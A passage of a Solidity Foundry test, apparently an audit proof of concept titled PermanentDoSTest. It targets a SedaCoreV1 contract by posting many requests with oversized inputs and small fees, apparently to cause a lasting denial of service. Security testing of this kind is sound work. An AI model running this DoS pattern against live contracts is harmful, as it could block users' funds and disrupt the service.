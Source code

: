 ```solidity
                tallyInputs: largeInput,
                tallyGasLimit: 8000000,
                replicationFactor: 10,
                consensusFilter: largeFilter,
                gasPrice: 0,
                memo: bytes(uniqueMemo)
            });
            
            // Add a small fee to ensure the contract needs to receive ETH during withdrawal
            bytes32 requestId = sedaCore.postRequest{value: 1 wei}(inputs, 1 wei, 0, 0);
            requestIds.push(requestId);
        }
    }
    
    function getRequestId(uint256 index) external view returns (bytes32) {
        return requestIds[index];
    }
}

contract PermanentDoSTest is Test {
    SedaCoreV1 public sedaCore;
    address public owner = address(0x1);
    address public normalUser = address(0x4);
    address public sedaProver = address(0x3);
    
    // Maximize parameters to increase memory usage
    bytes public largeInput;
    bytes public largeFilter;
    
    // Timeout period in seconds
    uint256 public timeoutPeriod = 86400; // 1 day
    
    function setUp() public {
        // Deploy the implementation contract
        SedaCoreV1 implementation = new SedaCoreV1();
        
        // Deploy a proxy that delegates to the implementation
        vm.startPrank(owner);
        bytes memory initData = abi.encodeWithSelector(
            SedaCoreV1.initialize.selector,
            sedaProver,
            timeoutPeriod
        );
        
        address proxy = deployProxy(address(implementation), initData);
        sedaCore = SedaCoreV1(proxy);
        vm.stopPrank();
        
        // Create large inputs to maximize memory usage
        largeInput = bytes(generateLargeString(10000));
        largeFilter = bytes(generateLargeString(5000));
    }
    
    function generateLargeString(uint256 size) internal pure returns (string memory) {
        bytes memory result = new bytes(size);
        for (uint i = 0; i < size; i++) {
            result[i] = bytes1(uint8(65 + (i % 26)));
        }
        return string(result);
    }
    
    // Simple proxy deployment helper
```